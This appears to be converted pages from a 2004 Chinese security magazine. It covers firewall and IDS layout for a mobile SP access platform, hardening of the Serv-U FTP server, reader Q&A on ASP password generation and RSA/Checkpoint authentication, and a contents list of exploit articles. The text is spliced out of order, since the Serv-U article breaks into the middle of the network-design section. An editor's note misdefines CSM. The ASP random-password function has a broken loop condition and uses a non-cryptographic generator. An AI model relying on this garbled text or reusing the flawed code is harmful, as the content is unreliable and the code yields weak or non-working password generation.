

图1 移动SP接入平台网络拓扑图

在SP接入平台的网络接入层，通过提供较大的机房面积和电信级的物理环境，建立应用服务器集中放置的物理平台，一来使业务数据流向相对集中的地方，二来通过规划构建的网络环境保障，提供足够的对内对外的IP吞吐能力、结构的稳健性和负载均衡能力。按平台提供的服务类型来分，包括以下几类平台：

- 存储平台
- 安全平台
- 认证、鉴权和计费平台
- 业务应用和SLA监控平台
- 用户、业务和SP的综合管理平台
- 网络资源的统一控制平台

按上述服务平台的分类，可以推断在网络接入层中包括以下网络功能部件：

- 主机系统（UNIX/类UNIX）
- 数据备份及恢复系统
- 网络安全设备（F/W、IDS/IPS、Sniffer、漏洞扫描等）
- 认证／计费系统
- 客户管理终端设备

在网络的核心层，由于交换设备上采用了具有内容交换和策略控制功能的L7交换模块，除具备交换设备本身提供的强大交换和连接功能，满足高速的网络数据访问请求外，还可以通过设备上提供的CSM模块功能，实时跟踪网络会话和服务器负载情况，并将每个会话传送至最适当的服务器，通过对服务器流量的负载均衡，实现高性能的网络数据访问。同时通过容错型CSM的配置保持全状态信息，可以提供关键功能所需的真正无中断故障转换。

> 编者注：
>
> CSM，即公共信令模块，其负责信令链路接入和消息处理。

利用在CSM模块上的内容控制策略设置，可实现逐条连接地在多个防火墙间分布流量，从而允许扩展防火墙保护，确保所有属于特定连接的分组都通过同一防火墙传输，实现防火墙负载均衡。同时通过CSM模块的内容交换实现的流量负载均衡功能，可防备一定程度的DoS攻击，保证设备安全运行，提高服务的可靠性。

## SP接入平台业务安全设计

目前移动SP接入平台的主要业务内容包括以下几个方面：

### 1. 主机托管

IDC向用户提供主机托管（Co-location）业务的目的在于向用户提供与Internet网的连接以及提供独立安全的场地，IDC服务提供商将负责提供Internet连接层、核心层、分布层及服务器接入层的设备并保障其稳定运行。用户则需要自己负责服务器以及包含防火墙等在内的内部网络。

在对主机托管业务的网络安全进行规划时，需要注意以下几个安全问题：

- 托管主机网络区域必须与其他网络区域进行分离。
- 在托管主机网络数据进出通道口安装防火墙。为保证网络性能和连接的畅通，在防火墙之间可以进行流量负载均衡。
- 在托管主机网络区域内部安装IDS/IPS设备，设置相应的安全保障策略，对来自外部的对主机托管网络内部进行的网络攻击和入侵行为进行探测和实时阻断。
- 如可能的话，对客户托管主机定期进行安全漏洞扫描，督促客户对各自的主机系统和应用系统的安全进行改善和增强。

### 2. Web Caching

为实现Web内容的快速访问，将Web访问造成的对广域网的流量瓶颈分散在各局域网内，从而一方面可以满足客户的需求，另一方面可以提高网络的响应速度和网络带宽的使用效率，并且便于对网络范围的数据访问进行集中控制。一般的实施办法为在企业中心的Web服务器前面加入Web缓存，实现Web服务加速。在网络的入口点（通常在本地中心）放置，在各站点分别放置Web缓存设备，与第四层交换机的服务器负载平衡功能相配合，通过智能化的软件DNS（Intelligent DNS）实现DNS的重定向，将用户的访问请求指向本地的第四层交换机，Web缓存与本地Web服务器一起，向用户提供包含全局信息和本地信息的页面。

在方案计划和实施前，必须同时看到Web Caching虽然提高了网络访问的效率，但同时也给基于这种方式的网络访问机制带来了安全方面的威胁。比较明显的就是来自DoS/DDoS攻击的威胁。针对这种类型的网络攻击，除了对L4交换设备的流量均衡功能进行配置，能在一定程度上缓解DoS/DDoS攻击外，还需要结合网络防火墙和IDS/IPS的部署策略，才能使对这种类型的网络攻击和威胁得到解决。

在对Web Caching产品和功能进行部署时，需要注意如下几点：

采用2台Web Caching设备，实现Web缓存，分别实现外部对内部和内部对外部的Web访问。一台Web Caching设备进行Web内容发布，放在防火墙外，用于实现外部对内部的访问。在配置防火墙策略时，使得只有该设备可以访问内部的Web服务器。第二台Web Caching设备用于实现内部对外部访问Internet，把它配置成正向代理，放在防火墙之内。可以选择把它与一个增值服务提供商配置成ICP同级。



在企业网络中部署IDS/IPS设备，可以结合基于主机和基于网络的IDS/IPS的各自特点，对针对企业内部的Web服务器的网络访问行为进行检测和控制，通过与防火墙的联动或者通过直接使用IPS设备，实时地将来自于外部网络的非法入侵和攻击阻挡在企业网络外。

### 3. VPN通道

VPN的服务目的就是在共享的基础公共网络上向用户提供网络连接。不仅如此，VPN连接使得用户获得等同于专有网络的通信体验。合理和实用的VPN解决方案能够抗拒非法入侵、防范网络阻塞，而且能安全、及时地交付用户的重要数据。在实现这些功能的同时，VPN还具有良好的可管理性。一般说来，VPN具备以下特点：

- **安全性**：保证商业上重要的数据流量通过隧道加密、流量分离、数据包认证、用户认证和访问控制等安全机制而保持其机密性。
- **QoS保证**：保证重要的或者对延迟敏感的数据流量的优先权，通过变动带宽速率来管理网络的拥塞。QoS（服务质量）功能可以通过排队、防治网络阻塞、流量整形和数据包分类，以及采用优化的路由协议的VPN路由服务等方式得以实现。
- **可管理性**：随着高级监控和自动数据流系统实现了新型服务的快速部署以及服务级协议（SLA）逐渐受到支持，执行安全策略和QoS策略、管理和计费的高性价比方案采取相应的合理管理措施成为必然。
- **可靠性**：针对商业用户希望获得的可预计的、极高的服务可用性。
- **可伸缩性**：由于不需要站点对站点的对等性而具有高度的可伸缩性。典型的MPLS-VPN部署能够支持在同一网络上部署上万个VPN组。
- **透明度**：MPLS VPN运行在IP+ATM或者IP环境下，对应用完全透明。
- **网络环境**：由于MPLS VPN站点只同服务供应商网络对等，所以服务激活只需要一次性地在用户边（CE）和服务供应商边（PE）设备进行配置准备，就可以让站点成为某个MPLS VPN组的成员。
- **服务部署**：需要在启用了MPLS的核心网络共享网络设备，比如在网络升级期间或者必须部署新的MPLS网络时，都得和核心网络的设备打交道。
- **会话认证**：VPN成员资格由服务供应商决定，这是根据逻辑端口和惟一路由描述符所组成的环境功能实现的，对VPN组未经认证的访问被设备配置所拒绝。
- **机密性**：MPLS结构用一种类似可信帧中继或者ATM网络的方式来区分用户流量，从而实现VPN的安全性。
- **客户支持**：MPLS VPN是基于网络的VPN服务，无须客户机对VPN进行初始化。
- **用户交互**：无需用户交互。

### 4. VoIP业务

VoIP业务在于通过语音压缩的设备对模拟话音信号进行编码压缩处理，然后把这些语音数据根据相关协议进行打包，经过IP网络把数据包传输到目的地，再把这些语音数据包串起来，经过解码解压处理后，恢复成原来的语音信号，从而达到由IP网络传送语音的目的。

VoIP网络本身的安全体现在IP电话网关和PSTN电话交换设备相互之间的安全路由上，也即网络数据本身的安全性。而VoIP网络上的数据交换主要由各专用设备提供的功能进行保障完成，而且PSTN电话交换设备本身的专用性，以及IP电话网关及相应的VoIP设备基本上运行于专用内部网段，来自于网络外部的安全威胁基本上通过设备及应用的专业性予以屏蔽和解决。

## 安全设备部署

在防火墙部署图（图2）上的A组防火墙，采用了负载均衡的防火墙系统，它是两台或多台防火墙连接在一起，作为一个有机的整体，通过网络为客户提供高性能和高可用的服务。用户接受负载均衡系统提供的服务，而不管提供服务的是系统中哪台防火墙。从整个系统看，在其中一台防火墙发生故障时，用户可以在极短时间内立即恢复服务，不致对应用发生较大影响；在平时，两台防火墙均衡负载地工作，减轻了防火墙的压力并提高了效率。



图2 移动SP接入平台防火墙部署图

SecuiWall可以在多种模式下实现双机热备份，并且不需要采用第四层交换机就可以实现防火墙在网桥模式和路由模式下的Active-Standby及Active-Active的双机热备份以及负载均衡（Load Balancing，简称LB）功能，而且提供多机热备份功能和负载均衡功能。使用Active-Active方式，两台（或多台）防火墙可同时为网络提供安全服务，提高了数据包处理的效率与吞吐量，也平衡了网络负载，优化了网络性能。

对电信而言，需要一套性能优越、功能强大、性价比极高的防火墙系统。最好防火墙内部都能内置入侵检测系统，它可以自动识别黑客的入侵，有效保护网络的安全，提供所有必要的入侵防范功能，而且需要处理速度极快，使得网络传输速度与未安装防火墙时保持一致。

防火墙为抵御入侵行为，需具备实时检测及拦截功能，并及时向管理员报警，以有效防范各类入侵。

刘流：《黑客防线》04年1月份的杂志上发表了本文作者的一篇文章《七步构建安全的 Serv-U FTP 服务器》，由于当时考虑的是新手们的构建方法，没有在 Serv-U 的安全配置方面做太多深入的研究，很多读者觉得该文在安全方面写得不够全面。现在作者将该文没有提及到的一些安全方面的配置在此一一补上，希望大家能更进一步地配置出一个安全的 Serv-U 服务器！

- 适合对象：网络管理员、系统维护员
- 前置知识：Serv-U 基础安全配置

## Serv-U FTP 安全配置进阶

文／图 黄树东

1 月份我的《七步构建安全的 Serv-U FTP 服务器》一文是建立在小的网络服务器上的，所以没有做太深入的安全防护讲解，很多朋友联系我需要更进一步的安全防护方案，所以才有此文。同时考虑到文章完整性的需要，所以本文我会提及该文中的一部分内容，但只是做简单的说明，关于这一部分的详细介绍请参见 2004 年 1 月的《黑客防线》。现在我们开始接上谈。

入侵防御和检测功能与用户设置安全策略各自独立，也就是说，即使安全策略允许所有数据包通过，防火墙依然可以检测和拦截极具攻击性的行为和企图。

防火墙的 OS 安全也需要考虑，一个好的安全设备自己的 OS 必须非常安全，优秀的防火墙需要有以下功能：

- 性能不受规则数及会话数的影响；
- 在内核层处理流量，极大降低应用层的负荷；
- 内置入侵检测功能，确保防火墙的安全运行；
- 无需 L4 交换机，无需增加模块就可实现 Active-Standby、Active-Active 的高可用性解决方案；
- 支持网桥模式和路由模式以及 NAT 模式；
- 支持多个网络接口及 VLAN，适合多种网络结构等功能。

如图 2 所示，B 组防火墙主要是用来限制维护区和生产区之间的通信，因为很多时候维护人员想方设法连入 Internet 远程操作服务器，如果维护人员和生产区之间没有隔离，没有限制访问的话，很容易从内部维护区威胁到生产区，或因为维护区的计算机在使用中中了病毒，导致病毒扩散影响核心区域。

- 会非常危险，另外还需要建立一套安全策略来管理和控制维护服务器时带来的威胁，让专人管理此组防火墙，平时限制访问，或限制特定人员访问，或允许特定 MAC 地址通过 B 组防火墙维护服务器，从而降低网络从内部被攻破的可能，有效地划分出安全区以方便管理。
- 而 C 组防火墙可以是软件／硬件，主要对特殊重要的服务器做保护，其中安全规则需要根据业务来详细设置。
- 大体来讲，一个 SP 接入平台的安全方案就是这样了，一般这样的方案适合大多的平台构建，希望能给大家提供一定的帮助！

### 后记

由于版面的关系，小编忍痛让作者在原文基础上作了很多删减，所以很多地方可能没有也无法涉及到。希望本文可以起到抛砖引玉的作用，如果你有好的安全方案，不妨和大家在黑防上一块交流！

### 默认安装配置存在的问题

- 1. Serv-U 在安装的时候默认是允许匿名用户访问 FTP 服务器的，而这个匿名访问的安全性又实在不敢让人恭维，所以不建议允许匿名访问 FTP 服务器，而重创建另外的账号让其他人进来存取数据。

- 2. Serv-U 在新创建账户的时候会询问用户是否将该账户锁定在该目录下，默认是不锁定。如果这个账户及密码只有你一个人知道的话，那问题不大；但如果该账户及密码是公开的话，那就建议锁定。另外，在配置 Serv-U 账户可访问的目录时，尽量不要跟操作系统在同一个分区。Serv-U 以前有一个可以让匿名用户访问到分区根目录的漏洞，为防止此类事情的再次发生，尽量让 Serv-U 的账户访问到的目录在非系统分区。

- 3. Serv-U 在安装配置域的类型（domain type）的时候，会提示将域的相关信息以 ini 文件格式保存还是保存在注册表中。默认是以 ini 文件的格式保存在 `C:\Program Files\Serv-U` 下面的 `ServUDaemon.ini` 文件中。如果域的信息以 ini 文件存放的话，那任何能访问到 `C:\Program Files\Serv-U` 目录的用户都可以通过读取 `ServUDaemon.ini` 文件而知道 Serv-U 配置等方面的相关信息。而且最近还有人利用某网站论坛的漏洞通过新建系统账号，然后再利用管理员在这一步配置上的失误（也许应该叫做不小心才是）对 `ServUDaemon.ini` 文件进行读取、修改、写入，最终获取操作系统的 admin 权限。所以，在这里一定要选择将域的相关信息保存到注册表中，防止信息泄露以及在服务器上临时堵住这一漏洞（这一漏洞直接影响到目前最新的 4.109 版本）。对于配置成以 ini 文件格式保存相关信息且已投入使用的服务器，建议修改成保存到注册表中。修改方法如下：

- 选中相关的域，在右窗口中找到“Domain type”选项，将其值改成“Store in computer registry”，然后按“Apply”按钮使其生效。
- 由于通过对 `ServUDaemon.ini` 文件的读取、修改、写入最终获取操作系统的 admin 权限这个影响较大，目前 Serv-U 也还没有堵住这一漏洞，而且通过论坛的漏洞实现对 Serv-U 的攻击方法效果较为明显，成功率非常之高。所以在这里我提供另一个防范对策——修改 Serv-U 目录的存取权限！不过，这个方法最好在 Serv-U 的其他配置完成后才开始配置这一步，以免出现一些不必要的麻烦、错误。另外，使用这个方法的一个前提是系统分区必须是 NTFS 格式，否则这个方法无法实现。修改方法如下：
- 选中 Serv-U 的安装目录的属性，再选“安全”选项，不选“允许将来自父系的可继承权限传播给该对象”前面的小框，这时会弹出一个安全提示对话框，选“复制”按钮，然后修改该目录的存取权限。推荐的存取权限设置是：system 组对该目录具有“读取及运行”“列出文件夹目录”“读取”“写入”的权限，其他权限没有特殊需要不要给。而 admin 组（或者指定一至两个经常登录服务器做维护的用户）只具有“读取及运行”“列出文件夹目录”“读取”的权限，等在以后的维护过程中根据需要才给相关的账户“写入”等方面的权限。该目录的存取权限没有给其他组权限的必要。
- 通过上面的修改，可以有效地顶住网站、论坛漏洞而给 Serv-U 带来的直接威胁。
- 另外，我们还可以修改 Serv-U 安装目录下的 `ServUAdmin.ini` 文件的属性来保护 Serv-U，将该文件的属性改为只读，对方想修改 Serv-U 里面的配置时必须先修改 `ServUAdmin.ini` 文件的属性，否则 Serv-U 会提示出错而拒绝执行，进一步延缓对方攻击成功的速度。
- 上面这些是我认为在默认安装、配置时存在一些不安全的问题及解决方法，其他的在安装的时候可以按默认设置。

### 账号权限的管理

Serv-U 在给系统创建第一个账户的时候，权限给得非常大，可以上传下载、删除数据等等。虽然这个账户通常是给管理员用的，但我觉得无需给它这么高的权限。如果需要对 FTP 服务器的数据进行维护，可以在本地或通过远程控制工具进行操作，无须直接用 Serv-U 进行维护。

另外，允许上传下载的账户必须是两个账户，而且不能让这两个账户访问到同一个目录，特别是放在因特网上的服务器更是要严格控制账户的存取权限及上传下载账户所能访问到目录的位置。如果不注意，除了威胁到服务器的安全外，也许有一天你的 FTP 服务器会成为黑客入侵他人机器时黑客工具的中转站。

### FTP 服务的安全防御

现在上网还真的不安全，一不小心就遭到有心人的暗算。而作为一台对外开放，特别是放在互联网上的服务器，被扫描、攻击更是在所难免。我们在为这事头痛的同时，也只有将服务器的安全做到最好，才能让攻击者知难而退。那么我们的 FTP 服务器怎么才能有效地防止黑客的进攻呢？

Serv-U 自带了防止 FTP_bounce、FXP 攻击及防恶性连接的功能，这两项能够有效地防止黑客对服务器一定强度的 FTP 攻击及防止对方进行恶性连接、密码探测等。但这两项功能默认情况下是没有开启的。作为互联网上一台较为专业的 FTP 服务器，很有必要开启这两项功能以挡住黑客的攻击，开启方法如下：

打开 Serv-U 管理器并找到“Local Server”下面的“Settings”，在右边的“General”选项中选中“block FTP_bounce attacks and FXP”“block users who connect more than 4 times within 30 seconds for 5 minutes.”两项前面的小框即可。

“block FTP_bounce attacks and FXP”的作用是拦截黑客通过利用 FTP_bounce 及 FXP 的方法对 FTP 服务器进行攻击。

“block users who connect more than 4 times within 30 seconds for 5 minutes”的意思是当某个 IP 地址在 30 秒内连续连接本机超过 4 次，就将它拦截起来，并且 5 分钟内不允许该机连接本机的 FTP 服务。用户可以根据自己的需要对这个功能进行灵活定制，如将上面的屏蔽时间改为 30 分钟等等。利用这个功能可以非常有效地防止黑客对本服务器进行密码探测及多线程恶性连接等。

另外，如果发现有人多次对 FTP 服务器进行攻击、探测等恶意连接，我们可以将其 IP 地址列入黑名单屏蔽起来。Serv-U 自带了屏蔽 IP 的功能。但 Serv-U 屏蔽 IP 的功能只针对 FTP 服务来进行，被屏蔽的 IP 地址还是可以与本机进行其他的连接，如端口扫描、HTTP 访问等，也就是说无法阻止黑客对其他服务的攻击。不过，从我个人的角度来看，要实现 IP 地址及地址段的屏蔽，不如用防火墙屏蔽来得实在，毕竟屏蔽 IP 地址不是 Serv-U 的强项，而是防火墙的拿手好戏。

### 对客户端进行相关限制

作为一台共享数据的 FTP 服务器，由于使用的用户众多，考虑到用户上传、下载数据的速度等方面的因素，往往需要对连接的用户数及上传下载速度进行限制。毕竟服务器的宽带、资源还是有限的，不可能让用户进行无限制地连接、上传下载数据。

在 Serv-U 中可以控制允许连接服务器的用户数及用户上传、下载数据的传输速度，实现对系统资源、宽带占用的限制。如果有必要，还可以用 Serv-U 限制单个 IP 地址只能用指定的线程数连接服务器，以减少对宽带的占用及服务器的负担。现在我们来对上面提到的进行相关的限制，操作如下：

找到“Local Server”下面的“Settings”，在右边的“General”选项下面的最顶端有 3 个功能选项，分别是：

- Max. upload speed：最大的上传速度，用户可以根据需要进行限制（4.108 版有该功能，该版本以前的可能没有）。
- Max. download speed：最大的下载速度。
- Max no. of user：允许最多连接的用户数。

要做相关的限制，只需在右边的空白框中输入要限制的数字即可。另外，我们也可以在域中限制该域最多的连接用户数，这个就不再重复说了。现在我们来看看如何限制客户端连接服务器的线程数。要限定客户端连接服务器的线程数，需要指定相关的账户进行线程限制，操作如下：

找到要进行限制的账户后，选右边的“General”选项，将“Allow only 2 login(s) from same IP address”前面的框选中，即开启线程数的限制。系统默认是限定 2 线程，我们可以根据需要修改允许最多连接的线程数。在“General”选项有一项“Max. no. of users”功能，它的作用是限制某个用户的并发连接数（即允许该账户同时连接的最大数量）。

“Allow only 2 login(s) from same IP address”与“block users who connect more than 4 times within 30 seconds for 5 minutes”这两个功能如果结合得好的话，还能够减少客户端对 FTP 服务器进行多线程连接带来的压力，以及让 Serv-U 在客户端超出系统指定的连接线程数或指定时间内超过连接的次数时，封锁客户端的连接，以便让服务器能够更多、更好地为正常连接的客户端提供服务。现在很多下载软件都是多线程下载，我们可以根据服务器的配置、网络的速度在不影响正常连接的情况下进行灵活定制。

限制客户端上传下载数据的速度、连接线程数、并发连接数等与该服务的安全性没有直接关系，却与服务器的系统资源、宽带有着非常直接、非常大的关系，通过该限制可以防止服务器资源、宽带的耗尽而影响其他的服务或出现假死机现象。

### 启用安全日志记录

很多服务器软件都自带了日志记录功能，Serv-U 也不例外。Serv-U 的日志功能可以完整地记录整个服务的运行状态，包括上传下载、远程调试、执行命令等记录，但默认只开启记录上传下载这些对安全无关的日志。现在我们来启动 Serv-U 没有开启的另外一些日志记录。找到相关域下面的“Settings”功能，选右边的“Logging”选项，在“Debug”下面共有四个记录功能选项，分别是：

- Log FTP commands：记录 FTP 命令，很多远程攻击是通过命令行来进行的，启用它能够知道对方都执行了什么命令。
- Log FTP replies：记录对 FTP 命令的回应。
- Log Winsock activity：记录 Winsock 的活动情况。
- Log access DLL activity：记录 DLL 的访问详细情况。

建议全部选中让 Serv-U 做完整的记录。并在“Log file name”选项下面指定保存的日志文件名及存取路径，在“Automatically rotate log file”处选“Daily”（每天）或“Weekly”（每周）等后四个选项中的任一个（建议选“Weekly”），按“Apply”按钮使其生效。

Serv-U 的日志记录还是非常详细的，不过它连上传下载什么文件都做记录就太……如果你不想做上传下载调查的话，将上传下载记录的日志关了算了。日志太多了谁有时间看？

### 其他综合防范策略

Serv-U 是一个升级速度很快的服务软件，该软件的每一次升级都修正了前版本的一些已知漏洞或增加一些功能，建议尽量升级，使用最新的版本，以堵住一些已知、公开的漏洞。

另外，给服务器装一个防火墙也是很有必要的，一台放在因特网上对外开放的服务器没有防火墙的保护实在有点说不过去，至少人家说咱没有安全意识。还有，服务器自身的操作系统、其他对外开放的服务也要认认真真地做好安全方面的配置工作，否则我们的 FTP 服务器配置得再好、再安全，黑客从操作系统、其他服务突破进来，FTP 服务再安全也只能任其踩踏了。

好了，关于 Serv-U 安全方面的就说到这里，Serv-U 其实是一个非常优秀、安全的 FTP 服务软件，如果能够认认真真地配置的话，相信我们的 FTP 服务器是没有机会给黑客可乘之机的。

> 国内搞安全的朋友都有个习惯，很少对国内的主机进行测试或者是入侵，除非是授权的合法攻击。

但是，偶然间和几个安全公司的朋友谈起国内网络安全的现状，他们所说的情况让人非常吃惊。利用脚本方面的漏洞，几乎可以成功入侵 70% 以上的国内服务器！天！看来国内的安全水平仍然有待提高！以后，我们会密切关注国内的网络安全信息，给大家提供最好的网络安全信息资讯，让大家都完备地武装起来！

**湖南 lilo：** 我想用 ASP 生成一些随机密码，用数据库内，来加固我的程序，请问有些什么样的方法？

**脚本小子：** 一般 ASP 生成随机密码的方法很多，比较好的可以采用下面的方法：

```vb
Function gen_key(digits)
dim char_array(35)
char_array(0) = "0"......
char_array(9) = "9"
char_array(10) = "A"......
char_array(35) = "Z"
randomize
do while len(output)
    num = char_array(Int(35 * Rnd + 0))
    output = output + num
loop
gen_key = output
End Function
response.write "随机密码是：" & gen_key(10)
```

这是一个生成随机数的通用函数，我们首先将所有可能的字符保存在数组内，这里的例子是 0—9 及 26 个英文字符，共 36 个字符。注意数组下标是从 0 开始的，所以 `dim char_array(35)` 其实表示有 36 个字符。

注意：这段程序没有专门区分字母的大小写，如果你还要加上“大小写敏感／区分大小写”特性的话，修改数组大小为 `char_array(50)`，然后在后面列出所有可能的小写字符。例如：`char_array(36) = "a"`

```vb
char_array(37) = "b".........
```

`gen_key(digits)` 传进一个参数 `digits`，代表要生成的随机密码位数。今后要生成 20 位密码就用 `gen_key(20)`，即可打印出密码，或者将它保存至数据库内。

**山西 Router：** 我现在急需知道 checkpoint 与 RSA 动态口令卡双因素认证联动的相关信息，大编能告诉我吗？

**刘流：** 先装好你的 RSA 服务器，确认动态口令卡可以正确登录、建立用户，比如 test。RSA 的动态密码是一个固定的验证码＋动态口令，比如 test 的固定验证码是 1111，当前口令卡显示密码为 34567890，那么当前 test 的登录密码就是 111134567890。

RSA 和 checkpoint 有两种方式联动，一种是通过 radius 协议，另一种是 checkpoint 已经内置了 RSA 的客户端，只要导入 RSA 的配置文件，就可以通过 SecurID 做认证了，下面先说 radius RSA 服务器端的配置：

设置 checkpoint 的 IP 可以读取 RSA 服务器的资料，比如 checkpoint 的 IP 地址为 172.16.2.1；设置 RSA 和 cp 的 radius 验证码，比如是 abcd；设置可以参加 checkpoint 验证的用户和用户组。

checkpoint 端的设置：

设置防火墙可以通过 radius 读取用户认证信息；添加一个主机网络对象，名称为 rsaserver，填入 rsaserver 的 IP 地址，比如本例中是 172.16.2.2。添加一个 radius 服务器 rsaradius，选择参加认证的服务器是 RSA 服务器 rsaserver，设置和 RSA 服务器上一样的共享验证码 abcd，协议选择 udp-radius，版本选择 1.0。添加一个用户，认证方式设置为 radius，认证服务器选择为 rsaradius。根据策略，可以配置该用户参加访问认证或 VPN 认证。

通过上面的方法就可以实现联动了。

## 把握偶然，成就必然

## 这个世界有很多必然。

我们开放黑防攻防实验室的主要目的是想给大家提供一个合法的入侵平台，在尽量接近真实的环境里演练攻防技术，环境有了、条件有了，必然就会有一定效果。从这段时间在实验室通关的朋友来看，很多初入门的朋友都学会了一些比较简单的加密解密的技巧，很多有一定基础的读者朋友通过第八关、第九关的突破也学习到了一些新的知识。这是最让我们感到欣慰的事了，希望每个读者都能通过我们的杂志学到理论知识，再结合我们的实验室进一步巩固、理解这些技术！实践出真知！

在网络逐渐成为一种生活必需品的时候，高级网络技术的学习和研究必将成为主流，而其中高级程序员、网络分析师、系统安全工程师等相关行业必将成为未来发展的主流！这是社会发展的一种必然趋势，把握这个必然的人必将是未来的主宰！努力吧！我们一起！

## 这个世界有很多偶然。

从实验室来看，让我们没有想到的是：原本没有公开的一系列脚本漏洞和攻击方法开始从实验室的活动中体现出来！为了研究黑防的攻防实验室，无数的QQ群、聊天室开始兴起，遇到难题的朋友、技术不过关的朋友、已经突破的朋友都汇集到了一起，共同为技术而探讨着，我们本身也建立了一个QQ群，方便大家及时反馈消息。从这段时间来看，通过大家的研究，单是脚本一项，大家就发现了10个左右大大小小的漏洞！这个偶然的结果着实让我们高兴，这样的技术讨论氛围非常好，以后我们会继续延续下去，希望越来越多的朋友加入到我们中间，一起学习，一起进步！

或许很多朋友只是在偶然的机会看到了《黑客防线》，然后被它某点吸引，从而一直支持我们到现在，而这种偶然造就了今天我们一起努力的结果！不管收获多少，不管进步大小，总之，我们都努力了，也就无愧于心了，谢谢了，一起打拼的朋友们！

世界，总是存在着很多偶然和必然，你，抓住机遇了吗？

## 特别专题

- 痛定思痛，痛何如哉
  ——2003年10大毒虫总结 .......... 6

## 漏洞攻击

- 微软 IE MHTML 文件重定向并执行漏洞分析 .......... 14

2003年12月初，微软公布了新的漏洞，此漏洞是针对IE浏览器的，绿盟首先发布了Liu Die Yu提交的BugTraq中发现的“Microsoft Internet Explorer MHTML文件重定向并执行漏洞”。那么，什么是MHTML文件重定向漏洞？什么又是MHTML文件？应该怎样利用这个漏洞攻击？又应该怎样防御此类攻击？看了本文，你就会一切都明明白白了。

- 透视 Linux 内核级漏洞
  ——Linux kernel do_brk()参数边界检查不充分漏洞分析 .......... 17
- 轻轻松松获取Cisco路由器访问权限 .......... 21
- 手机短消息攻击内幕 .......... 26

## 脚本攻击

